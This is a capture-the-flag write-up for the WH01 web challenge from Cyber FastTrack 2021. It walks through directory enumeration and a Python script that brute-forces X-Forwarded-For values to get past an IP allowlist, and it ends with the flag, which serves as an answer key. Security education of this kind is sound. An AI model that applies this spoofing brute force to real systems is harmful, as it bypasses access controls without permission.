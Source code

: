 # Cyber FastTrack Spring 2021

### Solver: Will Green ([Ducky](https://github.com/wlg0005))
### Challenge: WH01
### Category: Web (Hard)

## Description:
#### [500 pts]: Access the site at https://cfta-wh01.allyourbases.co and find a way to get the flag from the CMS.

## Walkthrough:
Navigating to the provided URL, we're presented with a simple blog page:

![](WH01%20Writeup.001.png)

Doing the standard things such as looking at the page source and analyzing the requests to the site didn't show anything interesting. So let's use [Dirsearch](https://github.com/maurosoria/dirsearch) to see if we can find any hidden directories/files:

`python3 dirsearch.py -u https://ctfa-wh01.allyourbases.co/ -e .html`

```bash
  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: html | HTTP method: GET | Threads: 30 | Wordlist size: 8913

Error Log: /media/sf_CTFs/CyberFastTrack/Web/WH01/dirsearch/logs/errors-21-04-07_16-05-25.log

Target: https://cfta-wh01.allyourbases.co/

Output File: /media/sf_CTFs/CyberFastTrack/Web/WH01/dirsearch/reports/cfta-wh01.allyourbases.co/_21-04-07_16-05-25.txt

[16:05:25] Starting: 
[16:05:27] 400 -    0B  - /..;/
[16:05:36] 200 -   16B  - /404.html
[16:05:40] 400 -    0B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[16:05:42] 304 -    0B  - /admin.html
[16:05:58] 200 -  616B  - /index.html
[16:06:08] 200 -  154B  - /readme.txt
[16:06:09] 400 -  371B  - /servlet/%C0%AE%C0%AE%C0%AF
[16:06:10] 200 -    0B  - /soap/
```

Nice, we found some hidden files! `/admin.html` is pretty interesting but if you navigate to it, you will find that it is just a blank page. So let's take a look at `/readme.txt`:

```
To use the CMS make sure to visit /admin.html from allowed IPs on the local network.

Note: Tell engineering to stop moving the subnet from 192.168.0.0/24
```

It seems that in order for us to access `/admin.html` we need to trick the server into believing that we are coming from a local IP in the `192.168.0.0/24` range.

We can accomplish this by adding the [`X-Forwarded-For`](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For) HTTP header and setting it to a local IP. However, if we just try an IP such as `192.168.0.1` we still get a blank page from `/admin.html`. So we need to find a specific IP that the server will recognize is on the local network.

I accomplished this by creating a script that would bruteforce all of the IPs:

```python
import requests

url = 'https://cfta-wh01.allyourbases.co/admin.html'

ip = 0

while True:
    print("Trying", f"192.168.0.{ip}")
    r = requests.get(url,headers={"X-Forwarded-For":f"192.168.0.{ip}"})

    if 'flag' in r.text:
        print(r.text)
        break

    ip +=1
```

Running the script we find a valid IP to be `192.168.0.62` and we get the flag

### Flag: iPSpooFinGWiThHopHeaDers91918